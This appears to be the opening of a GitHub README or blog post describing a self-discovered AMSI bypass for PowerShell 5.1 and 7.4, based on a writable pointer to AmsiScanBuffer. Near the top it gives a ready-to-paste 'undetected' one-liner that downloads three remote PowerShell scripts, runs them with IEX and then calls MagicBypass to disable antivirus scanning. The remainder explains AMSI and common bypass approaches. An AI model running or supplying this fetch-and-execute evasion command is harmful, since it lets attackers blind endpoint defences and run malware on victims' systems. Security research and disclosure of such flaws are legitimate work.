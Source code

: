 # AMSI Write Raid 0day Vulnerability

In this blog post, I will introduce a new 0day technique designed to bypass
AMSI without the VirtualProtect API and without changing memory
protection. I will introduce this vulnerability, that I discovered, 
and discuss how I discovered the flaw, the process I used to exploit it and build 
proof of concept code to bypass AMSI in PowerShell 5.1 and PowerShell 7.4.

## One liner AV Bypass

✅ Undetected => More info in AvBypassTricks Folder


```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;
```

## Introducing the AMSI vulnerability

Microsoft's Anti-Malware Scan Interface (AMSI), available in Windows 10
and later versions of Windows, was designed to help detect and prevent
malware. AMSI is an interface that integrates various security
applications (such as antivirus or anti-malware software) into
applications and software, inspecting their behavior before they are
executed.  I discovered a writable entry inside __System.Management.Automation.dll__ 
which contains the address of _AmsiScanBuffer_, a critical component of AMSI which should
have been marked read-only, similar to the Import Address Table (IAT)
entries. In this blog post, I will outline this vulnerability and reveal
how I leveraged this into a 0-day AMSI bypass. This vulnerability was
reported to Microsoft on 8 April 2024.

Throughout this blog post, I will use the latest version of Windows 11 and
[Windbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/),
which we discuss in detail in various OffSec Learning Modules.

I will also focus on AMSI, and leverage 64-bit Intel assembly as well as
PowerShell, which we also discuss in detail in various OffSec Learning
Modules. OffSec Learners can access links to each of these prerequisite
Modules in the Student Portal.

## AMSI Background

Microsoft's Antimalware Scan Interface (AMSI) allows run-time inspection
of various applications, services and scripts.

Most AMSI bypasses corrupt a function or a field inside the AMSI library
__Amsi.dll__ which crashes AMSI, effectively bypassing it. Beyond crashing
or patching __Amsi.dll__, attackers can bypass AMSI with _CLR Hooking_,
which involves changing the protection of the _ScanContent_ function by
invoking _VirtualProtect_ and overwriting it with a hook that returns
_TRUE_. While _VirtualProtect_ itself is not inherently malicious, malware
can misuse it to modify memory in ways that could evade detection by
Endpoint Detection and Response (EDR) systems and anti-virus (AV)
software. Given the high profile of this attack vector, most advanced
attackers generally avoid calling this API.
